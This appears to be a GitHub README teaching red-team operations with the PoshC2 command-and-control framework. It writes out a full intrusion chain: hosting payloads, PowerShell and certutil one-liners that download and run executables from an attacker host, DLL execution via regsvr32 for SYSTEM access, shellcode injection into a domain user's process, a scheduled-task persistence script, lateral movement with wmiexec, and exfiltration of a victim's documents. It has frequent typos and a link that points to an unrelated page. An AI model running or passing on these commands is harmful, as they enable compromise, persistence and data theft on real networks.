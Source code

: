 # CTE-For-Monkeys

- Running Poshc2 
	- Set up
	- tool familierization 
		- hosting payload
		- file upload 
		- host enumeration 
		- user escelation
		- persistence / scripting
		- later movement
        - file download
- living of the land ( windows )
	- file downloads 
	- file (payload) execution 
- powershell 
	- user enumeration 
	- domain enumeratoin 
	- scripting


# Running PoshC2

Create a new project:

```
posh-project -n <project-name>
```

Projects can be switched to or listed using this script:
```
[*] Usage: posh-project -n <new-project-name>
[*] Usage: posh-project -s <project-to-switch-to>
[*] Usage: posh-project -l (lists projects)
[*] Usage: posh-project -d <project-to-delete>
[*] Usage: posh-project -c (shows current project)
```
Edit the configuration for your project:
```
posh-config
```
Edit `payloadcoms` to your ip

Launch the PoshC2 server:
```
posh-server
```

Alternatively start it as a service:
```
posh-service
```
Separately, run the ImplantHandler for interacting with implants:
```
posh -u <username>
```

For more on `Poshc2` github like [here](https://apple.stackexchange.com/questions/254380/why-am-i-getting-an-invalid-active-developer-path-when-attempting-to-use-git-a) 

# Host Payloads 

In the ImplantHandler run file upload command 
```
add-hosted-file
```

Host file opttions 
```
file location > /home/parrot/file.exe
file uri > /en-us/readme.md
file MIME type > text/html
Base64 > y/n
```

View all hosted files by running
```
show-hosted-files
```

# Download Payload on Victim 

For testing lets downloading using powershell on victim machine usign a basic user
```powershell
iwr -uri http://<youripordomian>/hosteduritring -outfile C:\windows\temp\bad.exe && C:\windows\temp\bad.exe
```

Interact with implant by typeing `1` in ImplantHandler

# User Escilation

Check for running process 
```ps 
ps
```
> As a basic user you'll only be able to see anything ran under your own context. 

Lets escalte to system through execution  

Upload a the dll to the machine 
```ps
> upload-file 
> /var/poshc2/projetname/payloads/Sharp_v4_dropper_x64.dll
> location C:\windows\temp\updater.dll 
```

Execute dll using local windows binaries 
```ps
sharpps regserv32 C:\windows\temp\updater.dll
``` 
> For more on native window binaries look [here](https://lolbas-project.github.io/)

After execution you should see a system level beacon return in ImplantHandler  

Once you are system you can Enumerate for other users on the box with domain access. 
```ps
ps
```

Search for any user process being ran as a domain user, to inject into

```ps
inject-shellcode <PID> <name_of_shellcode.bin>
```

Checking your ImplantHandler you should see a new beacon running in the context of said user.

As a domain user you can now run domain level commands, you can check your groups and privliages 
``` 
sharpps net user <domain username>
```

# Persistence and Scripting 

Now to maintain our doamin user privlige lets create a .ps1 script to set persistence using registry keys  

On your attack box with the editor of your choice copy the following 
```ps
$payloadpath = "C:\windows\temp\bad.exe"
$taskname = "Test Updater"
$tskdescription = "This task updates things."
$action = New-ScheduledTaskAction -Execute $payloadpath
$days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
$trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 8am
Register-ScheduledTask -Action $action -Trigger $trigger -Taskname $taskname -Description $tskdescription
```
> Learn more about powershell `New-ScheduledTaskTrigger` [here](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtask?view=windowsserver2022-ps)

Save your pslo scropt as bad.ps1 in /home/parrot/desktop/bad.ps1

Lets run the .ps1
```
pslo /home/parrot/desktop/bad.ps1
```

You should see your scheudled task name appear for confirmation 

# Lateral Movement 

Now lets run a `sharpview` to enumerate the network to conduct lateral movement
```
sharpview 
```
> Read more on sharpview [here](https://academy.hackthebox.com/course/preview/active-directory-powerview/powerviewsharpview-overview--usage)

We can us the enumeration script to identify the next workstation to laterally move to 

```
resolveip <127.0.0.1>
```

Lets host a new payload 
```
add-hosted-file
```

Host file opttions 
```
file location > /var/poshc2/projectname/payloads/Sharp_v4_dropper_x64.exe
file uri > /verify
file MIME type > text/html
Base64 > n
```

Run wimc to get download and execution of hosted payload
```
wmiexec <127.0.0.1> <domain> <username> password=asdsa "cmd /c certutil.e xe -urlcache -split -f http://badip/verify C:\windows\downloads\bad2.exe && C:\windows\downloads\bad2.exe"
```

In ImplantHandler interact with the new payload 

In the new payload handler lets navigate to the `documents` folder 
```
cd C:\users\username\documents
```

lets see what documents we can find 
```
ls
```

Now lets download some files 
```
download-file <filename>
```

Congragulations you have ran through your first OPPLAN, check [here](poshC2_help_v8.md) for the help list for poshc2 and other commands you can run.


